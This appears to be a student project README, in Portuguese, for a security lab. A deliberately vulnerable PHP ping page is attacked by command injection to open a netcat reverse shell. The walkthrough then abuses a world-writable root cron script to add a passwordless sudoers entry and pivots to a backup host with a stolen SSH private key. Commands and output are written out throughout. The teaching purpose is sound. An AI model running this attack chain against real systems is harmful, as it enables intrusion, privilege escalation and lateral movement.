


# Projeto

## Grupo
- Fernando Braghiroli - 11800500
- Matheus Baptistella - 11223117

## Fase 1
### Funcionamento
Para este projeto, o objetivo era desenvolver um servidor web Apache em PHP 5 que tivesse alguma vulnerabilidade que o grupo pudesse explorar para criar uma demonstração. Para isso, o grupo criou uma página na qual o usuário pode inserir um domínio e o site utiliza o comando `ping` para pingar o domínio, mostrando parte do output do comando na página web para o usuário saber que o comando está funcionando. O código PHP processa a entrada do usuário a partir do formulário HTML e executa a seguinte linha de código:
```php
shell_exec("ping -c 4 " . $ip);
```

Ou seja, ele cria um comando a partir do input do usuário e manda para a shell executar. Isto é uma vulnerabilidade, pois a shell está executando algo controlado pelo o usuário. Deste modo, o grupo decidiu demonstrar o Atatque de "Command Injection" no PHP para utilizar esta vulnerabilidade. O ataque consiste em explorar o input de usuário que não é sanitizado para executar algum comando malicioso. Neste caso, o grupo decidiu abrir uma conexão de shell reversa, isto é, ao invés do atacante se conectar ao servidor (bind), como no caso inicial da página web para efetuar o ping, o atacante cria um listener em sua máquina que fica esperando por uma conexão. Assim, ao incluir o comando malicioso no alvo (servidor), o servidor é quem faz a request para se conectar ao atacante. Desta forma, o atacante obtém controle total sobre o sistema vulnerável através do shell reverso. Isso permite a execução de comandos, exploração de dados, e potencial escalonamento de privilégios.

### Execução
Para simular o ataque, inicialmente deve-se ter instalado na máuina local o Docker/docker compose, e o Netcat. Assim, é necessário estar no diretório do projeto:
```bash
cd projeto
```
e então pode-se iniciar o servidor (vítima) com o comando:
```bash
./start.sh
```
caso o script não tenha permissão para executar:
```bash
chmod +x start.sh
```
Para visualizar o serviço web, acesse o endereço `http://localhost:8080`. Teste o funcionamento esperado da página colocando `google.com` no campo para inserir o IP. O output será mostrado na própria página. Após verificar o correto funcionamento do serviço, na sua máquina local crie um listener com o netcat através do comando:
```bash
nc -lvnp 4444
```
neste listener será conectada a shell reversa. De volta para a página web, podemos modificar o input do usuário de forma que o servidor execute o ping e depois execute um comando adicional. Para isso, podemos formular o payload (para saber o endereço da interface pode-se utilizar o comando `ifconfig`):
```
google.com; nc <endereço inet da interface wlp3s0> 4444 -e /bin/bash
```
A primeira parte garante que o comando será válido, pois `ping` espera um endereço. Ao utilizar o caractere `;`, estamos instruindo a shell a executar o comando seguinte depois do ping. O próximo comando é utilizado para criar a conexão em shell reversa, ao utilizar o netcat para estabelecer uma conexão com o atacante na porta `4444` e executar uma shell `/bin/bash`. Assim, ao incluir o ip corretamente e submeter o formulário no serviço web, pode-se notar que no terminal do listener temos uma shell reversa:
```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on <address>
ls
index.php
whoami
www-data
pwd
/var/www/html
```

## Fase 2
### Funcionamento
Após invadir a máquina vítima, temos as permissòes para o usuário `www-data`. Desta forma, para conseguir aplicar a técnica de "pivoting" precisamos escalar privilégios. Um jeito comum de se fazer isso é através de scripts executados pelo `cron`, o qual permite a execução automática de comandos ou scripts em horários, datas ou intervalos regulares, especialmente aqueles criados pelos usuários mas que são executados como root. Ao colocar permissões erradas para o script que será executado de tempos em tempos, a vítima permite que o atacante sobrescreva o conteúdo do script com o que ele quiser. Depois disso, o atacante já tem acesso root na máquina e agora precisa escanear a rede para encontrar outras máquinas. Neste caso, a vítima possui uma outra máquina que serve como um backup de seu serviço web, copiando arquivos através de uma conexão ssh. Finalmente, o atacante pode encontrar a chave privada utilizada na conexão para que seja possível pivotar para a próxima máquina.

### Execução
Dentro da shell reversa e ainda como usuário `www-data` pode-se verificar o conteúdo dos scripts sendo executados pelo serviço `cron`. Para isso, pode-se listar os diretórios onde as tarefas são configuras:
```bash
ls /etc/ | grep cron
```
E depois ver quais são executadas no `crontab`. Entretanto, como o atacante ainda é um usuário normal os serviços executados como root não estarão visíveis. Neste caso, pode-se analidar quais estão configurados apra executar no diretório `cron.d`:
```bash
ls /etc/cron.d
cronjob
cat /etc/cron.d/cronjob
* * * * * root /usr/local/bin/date.sh
* * * * * root /usr/local/bin/backup.sh
```
Ou seja, existem duas tarefas programadas para serem executadas regularmente pelo cron. Ao analisar mais detalhadamente cada uma:
ls -l /usr/local/bin/     
-rwxrwxr-x 1 root root       562 Aug 21 11:37 backup.sh
-rwxrwxrwx 1 root root        44 Aug 20 19:48 date.sh

Nota-se que `date.sh` possui permissão de escrita para usuários da categoria `Others`, justamente o usuário do atacante (www-data). Assim, o objetivo agora é sobrescrever o conteúdo daquela tarefa para algo que dê o privilégio root. Assim, o comando:
```bash
echo '#!/bin/bash
echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
/bin/bash' > /usr/local/bin/date.sh
```
Desta forma, o atacante pode se otrnar qualquer usuário através do `sudo`, sem precisar de uma senha e podendo executar todos os coamndos. A tarefa do cron é executada a cada minuto, por isso pode ser que imediatamente nenhuma mudança seja percebida, mas pode-se verificar que tem-se todas as permissões digitando:
```bash
sudo -l
Matching Defaults entries for www-data on 690dde220c48:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 690dde220c48:
    (ALL) NOPASSWD: ALL
```
Pode-se instalar o python para testar os privilégios e conseguir uma shell tty:
```bash
sudo apt-get install python -y
```
e então
```bash
python -c "import pty; pty.spawn('/bin/bash');"
```
Após isso, pode-se tornar usuário root:
```bash
sudo -i
```
Ao analisar novamente o script `backup.sh`, nota-se que ele faz o backup através do `rsync` de um diretório na máquina vítima para outra máquina:
```bash
cat /usr/local/bin/backup.sh

```
Dai pode-se observar que a chave privada para conexão está em `/root/.ssh/id_rsa`. Finalmente, podemos utilizar o comando a seguir para pivotar para a próxima máquina como usuário `backupuser`:
```bash
ssh -i /root/.ssh/id_rsa -o StrictHostKeyChecking=no backupuser@backup
backupuser@0fe91d2c7d29:~$ whoami
backupuser
```

## Público Alvo
O público-alvo deste projeto de engenharia de segurança abrange uma ampla gama de pessoas, desde estudantes e profissionais da área até interessados sem conhecimento prévio no assunto. A proposta é tornar o conteúdo acessível para todos, com uma abordagem que possibilite tanto a compreensão de conceitos básicos para iniciantes quanto a expansão de conhecimentos para aqueles com formação técnica ou experiência no campo. Assim, a videoaula pode atender tanto a estudantes de engenharia e técnicos de segurança quanto gestores e colaboradores de empresas que desejam compreender melhor as práticas e normativas de segurança, além de entusiastas que buscam introdução ao tema.

## Resultados
A seguir estão expostos os resultados do formulário disponibilizado para o público alvo.


